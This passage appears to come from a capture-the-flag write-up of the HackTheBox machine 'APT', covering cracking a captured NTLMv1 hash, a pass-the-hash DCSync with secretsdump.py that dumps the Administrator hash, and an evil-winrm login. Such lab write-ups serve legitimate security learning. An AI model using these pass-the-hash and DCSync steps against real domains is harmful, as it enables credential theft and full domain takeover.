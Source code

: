 We now have an NTLMv1 hash! Googling how to crack this leads me to this site:

{% embed url="https://crack.sh/get-cracking/" %}

This would convert it to an NTLM hash that we can pass along, of which we get `d167c3238864b12f5f82feae86a7f798`. Since this is the machine account `APT$`, we can perform a DCSync attack on the domain.&#x20;

```
$ secretsdump.py -hashes :d167c3238864b12f5f82feae86a7f798 'htb.local/APT$@htb.local'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c370bddf384a691d811ff3495e8a72e2:::
```

Afterwards, we can use this hash to `evil-winrm` into the machine.&#x20;

<figure><img src="../../../.gitbook/assets/image (364).png" alt=""><figcaption></figcaption></figure>

A unique machine that was rather difficult for me. I definitely needed to use a writeup for this one, or I would still be stuck at the RPC part. Rooted!&#x20;
